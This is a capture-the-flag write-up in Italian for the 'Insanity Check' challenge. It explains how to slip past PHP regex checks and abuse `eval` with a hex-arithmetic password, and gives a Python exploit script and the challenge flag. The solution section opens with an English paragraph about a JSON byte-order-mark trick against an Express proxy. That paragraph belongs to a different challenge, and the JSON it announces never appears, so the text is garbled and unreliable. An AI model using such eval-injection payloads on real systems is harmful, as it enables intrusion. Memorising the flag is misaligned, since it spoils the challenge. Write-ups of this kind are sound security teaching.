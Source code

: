 # Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
You should make a JSON that satisfies the following conditions:

The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `dammilaflag`.
The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.
In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:


Come affermato nella descrizione, il primo obiettivo era superare le REGEX.


La prima REGEX controlla se la password contiene caratteri non compresi nella funzione `preg_match`, per esempio lo spazio ( ).
```php
if (!preg_match("/^[a-zA-Z0-9_\-'(),]+$/", $inp, $matches))
```

La seconda REGEX:
- Controlla se la stringa contiene almeno un numero.
- Controlla se la stringa contiene almeno una lettera.
- Controlla se la stringa contiene almeno uno degli underscore ( _ ) o dei trattini ( - ).
```php
if (!(preg_match("/[0-9]/", $inp, $matches) && preg_match("/[a-zA-Z]/", $inp, $matches) && preg_match("/[_-]/", $inp, $matches)))
```

La terza REGEX controlla se la password contiene il numero "1".
```php
if (preg_match("/[1]/", $inp, $matches))
```


Arrivati a questo punto dobbiamo porci un altro obiettivo, quello di superare l'ultimo controllo.
```php
if ($inp != "192014812")
```

Ovviamente visto che la stringa contiene il numero "1", la password "192014812" non è valida.
Osservando il codice però, possiamo osservare che prima di `strcmp` viene eseguita la funzione [`eval`](https://www.php.net/manual/en/function.eval.php).
```php
eval("\$input=$inp;");
```
Grazie al funzionamento interno della funzione `eval`, possiamo usarla a nostro favore, passando come parametro "192014812" codificato, per esempio in esadecimale.
Ricordiamoci che non possiamo passare direttamente il numero codificato, ma possiamo per esempio passare `192014822 - 10`.

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
